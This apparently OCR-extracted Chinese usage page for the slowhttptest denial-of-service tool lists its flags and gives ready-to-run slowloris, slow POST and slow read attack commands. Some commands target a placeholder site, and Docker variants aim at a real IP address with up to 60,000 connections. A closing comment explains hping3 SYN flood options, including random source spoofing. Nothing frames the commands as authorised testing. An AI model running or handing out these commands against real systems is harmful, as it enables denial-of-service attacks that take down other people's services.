  -r      connections per second 每秒连接个数

 -s      bytes 声明Content-Length header的值

 -t      HTTP verb 在请求时使用什么操作，默认GET

 -u      URL  指定目标url

 -v      level 日志等级（详细度）

 -w      bytes slow read模式中指定tcp窗口范围下限

 -x      bytes 在slowloris and Slow POST tests模式中，指定发送的最大数据长度

 -y      bytes slow read模式中指定tcp窗口范围上限

 -z      bytes 在每次的read()中，从buffer中读取数据量

2.使用方式.



slowloris模式：耗尽应用的并发连接池，类似于HTTP层的syn flood 洪水攻击



slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://www.xxx.com/index.html -x 24 -p 3



slow post模式：耗尽应用的并发连接池，类似于HTTP层的syn flood 洪水攻击



slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u https://www.xxx.com/index.html -x 10 -p 3



slow read模式：攻击者通过调整TCP Window窗口大小，使服务器慢速返回数据



slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://www.xxx.com/index.html -p 3

Hping3: 工具的使用,该工具灵活性极高，常用于定制发送TCP/IP数据包，例如定制SYN Flood攻击包，ICMP/UDP等攻击



Docker 用法

docker run -it  --rm shekyan/slowhttptest    -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://119.8.41.242 -p 3



docker run -it  --rm shekyan/slowhttptest    -c 60000 -X -r 5000 -w 512 -y 65530 -n 5 -z 32 -k 3 -u http://119.8.41.242 -p 3

docker run -it  --rm shekyan/slowhttptest    -c 50000 -H -g -o my_header_stats -i 10 -r 20000 -t GET -u http://119.8.41.242 -x 24 -p 3





# 进行Syn Flood攻击， -c=攻击次数/ -d=数据包大小/ -S=Syn/ -p=端口 / -w = window窗口大小 / --flood=洪水攻击 --rand-source=随机源地址
